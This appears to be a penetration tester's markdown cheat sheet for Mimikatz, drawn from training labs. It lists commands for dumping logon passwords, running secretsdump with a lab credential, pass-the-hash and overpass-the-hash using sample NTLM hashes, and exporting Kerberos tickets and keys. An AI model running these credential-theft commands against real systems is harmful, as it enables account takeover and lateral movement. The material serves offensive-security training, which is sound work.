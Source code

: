 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Usage 

```cmd-session
mimikatz.exe
```
### Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

### Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Export Tickets

See [[Pass the Ticket (PtT)]]

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

> [!NOTE]
> At the time of writing, using Mimikatz version 2.2.0 20220919, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets `sekurlsa::tickets /export` do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use [[Rubeus]] to export tickets in base64 format.


##### Extract Kerberos Keys

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::ekeys
```

##### Pass the Key or OverPass the Hash

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.